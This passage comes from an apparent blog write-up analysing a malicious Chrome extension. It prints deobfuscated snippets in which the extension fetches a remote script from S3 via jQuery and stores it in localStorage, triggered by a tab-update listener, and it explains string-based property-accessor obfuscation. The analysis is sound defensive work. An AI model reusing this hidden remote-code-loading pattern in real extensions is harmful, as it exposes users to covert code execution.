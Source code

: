 After `getMediaPath` has assigned the contents of the JSON object to the window, `setMediaPath` is called to execute an AJAX call to fetch the contents of the script in S3 and storing it in local storage. Prior to fetching whatever that is stored in S3, the script performs checks to make sure that the window variables `jj` and `uu` are defined (jQuery and S3 URL respectively). I’ll be honest and say that I’m not quite sure `gg > jj` is for other than doing some fuzzy validation to ensure these variables were not tampered with.

In actuality, the code that is executed in `setMediaPath` is really this:

```js
setMediaPath: function() {
    "undefined" != typeof '$' && '$' && 'https://...' && 'get' > '$' && window['$']['get']('https://...', function(a) {
        var b = "cfg_audio_id";
        localStorage[b] = a
    })
}
```

So what is going on here? In `getMediaPath`, the code is taking advantage of what you are able to do with JavaScript which is to store string representation of tokens (or code) and then execute them. For example:

```js
let test = {
    "c": "console",
    "l": "log"
};
for (const key in test) { window[key] = test[key]; }

window[c][l]('test'); // Prints out 'test'
```

This feature called [property accessors](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Property_Accessors) allows anyone to reference functions by their name from a given object. The code the attacker works here since the jQuery library is initialized at the beginning when the browser loads, defining the `$` object to be accessed at any time.

----

Let’s take a step back and try to analyze how the functions I described above fit into the whole situation since I’ve only been focusing on the specifics above and the order I was investigating the functions.

To start off, the line that triggers all of this to happen in the first place is when an event listener is attached to monitor when tabs are updated when the extension is first loaded. `A` is defined as the flag that dictates if we have executed the malicious S3 script yet.

```js
A = !1

// ...

chrome.tabs.onUpdated.addListener(e);
```

`e` is the function Chrome will fire whenever a tab gets updated (title change, address, change, etc.).
